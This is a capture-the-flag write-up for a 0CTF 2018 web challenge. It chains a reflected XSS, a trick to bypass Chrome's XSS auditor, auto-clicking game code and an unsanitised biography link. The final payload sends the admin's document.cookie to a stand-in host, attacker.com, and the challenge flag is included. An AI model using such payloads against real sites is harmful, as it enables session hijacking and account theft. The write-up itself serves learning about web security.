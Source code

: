 # 0CTF 2018: h4x0rs.club  - Part II

**Category:** Web
**Points:** 687
**Solves:** 6
**Description:**

> Get document.cookie of the admin: https://h4x0rs.club/game/

**Note:** This is an unintendend solution for the challenge.
## Write-up
 
### Finding the XSS

There is a XSS on `/game/javascripts/app.js` in the function responsible for checking if the player won or lost the game.

```
function b() {
       x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show();
       [...]
 }
```

The function above copies the html of an element with id `audiences` to an element with class `js-user` so by creating these elements using the injection on `/game/?msg=` we can achieve javascript execution.

Then, theoretically, by accessing `https://h4x0rs.club/game/?msg=<div id="audiences"><script>alert(1);</div></div></div><div class="js-user"></div>` and clicking on the play button an alert should pop up after around 15 seconds (the time it takes for the game to end).

But it doesn't, we are stopped by Chrome's XSS auditor which blocks the access to the page because it detected that a `script` tag on the URL was also reflected into the page.

We can bypass it by sending `https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--alert(1);</div></div></div><div class="js-user"></div>` which isn't executed by the browser, but when appended by JQuery through the `append` function will surprisingly ignore the `<!--`
and add our tag to the `js-user` div.

### Triggering the XSS

Finding the XSS isn't all that is needed to solve this challenge, given the user would have to click in the play button for the XSS to be triggered, and in this case, the admin will not interact in any way with the page after accessing it.

This is when the code on `/game/javascripts/client.js` comes in handy.

```
$( document ).ready(function() {
    CLIENT_GAME.init();
    [...]
    setTimeout(function(){$('.js-difficulty').children().click();}, 1000);
});
```

The code above will get all childrens of the elements with class `js-difficulty` and then click on them, exactly what we need to finish the chain.
By creating a div with class `js-difficulty` and inside it creating another div with class `js-start-button` we can start the game without any user interaction.

You can test it by accessing:

```https://h4x0rs.club/game/?msg=<div class="js-difficulty"><div class="js-start-button"></div></div>```

Combining these two we arrive at the final payload that will be sent to the admin:

```https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--location.href="http://attacker.com/?cookie="+document.cookie;</script></div><div class="js-user"></div><div class="js-difficulty"><div class="js-start-button"></div></div>```

### Sending the payload

The biography also isn't being properly sanitized, so you can set it to:

```<a href="http://attacker.com/redirect.html" id="report-btn"></a>```

Further, reporting your own profile to the admin with the hash `report` added to it will make the admin click on the link and be redirected to your website, because the code below is present in the page:

```
if(location.hash.slice(1) == 'report'){
       document.getElementById('report-btn').click();
}
```

Then you make `redirect.html` redirect the admin again to your final payload, which will start the game and trigger the XSS, sending his session (and the flag) back to you.

## Flag

```flag{postman_1n_the_middl3}```

## Contact

If you have any questions feel free to contanct me on [@lbherrera_](https://twitter.com/lbherrera_)
